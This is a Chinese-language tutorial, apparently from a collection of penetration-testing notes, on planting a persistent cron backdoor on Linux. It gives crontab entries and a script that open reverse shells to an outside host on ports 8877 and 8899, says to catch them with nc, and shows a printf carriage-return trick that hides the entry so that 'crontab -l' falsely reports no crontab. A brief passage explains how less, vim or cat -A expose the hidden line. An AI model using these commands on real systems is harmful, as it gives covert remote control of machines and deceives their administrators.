






# Cron后门

> 在 ubuntu 中直接在计划任务中默认使用的是sh，指向的是 dash 而不是 bash ，所以执行反弹任务可能会失败，解决方案参考：<https://cloud.tencent.com/developer/article/1683265>

在Linux系统中，计划任务一般是由cron承担，我们可以把cron设置为开机时自动启动。cron启动后，它会读取它的所有配置文件（全局性配置文件/etc/crontab，以及每个用户的计划任务配置文件），然后cron会根据命令和执行时间来按时来调用工作任务。

cron表达式在线生成：<https://www.bejson.com/othertools/cron/>

crontab -e 设置定时任务

```
#每一分钟执行一次
*/1 * * * * /bin/bash /root/test.sh
或者直接执行反弹shell
*/1 * * * * /bin/bash -c "/bin/sh -i >& /dev/tcp/203.0.113.1/8877 0>&1"
```

test.sh：

```bash
#!/bin/bash
bash -i >& /dev/tcp/203.0.113.1/8899 0>&1
```

chmod +sx test.sh

## crontab -l 查看定时任务：重启crond服务，**service crond restart**，然后就可以用nc接收shell:

如上方式，管理员执行**crontab -l**就能看到执行的命令内容不是特别隐蔽。

使用如下命令设置计划任务，**crontab -l**执行后会显示"no crontab for root"，就达到了一个简单的隐藏效果：

```
(printf "*/1 * * * * /bin/bash /root/test.sh;\rno crontab for `whoami`%100c\n")|crontab -
```



```
```

> \r导致显示截断，使得后面的内容逐个字符覆盖前面的字符；
>
> 100%c 的作用是格式化输出一个字符，前面99个空格补齐。
>
> 详细分析可以看这篇文章：<https://cloud.tencent.com/developer/article/1683265>

实际上是他将 cron 文件写到文件中,而 crontab -l 就是列出了该文件的内容:

```
/var/spool/cron/crontabs/root
```

通常 cat 是看不到这个的，只能利用 less、vim 或者 cat -A 看到，这也是利用了cat的一个缺陷

> cat默认使用是支持一些比如 \r 回车符 \n 换行符 \f 换页符、也就是这些符号导致的能够隐藏命令。
>
> 
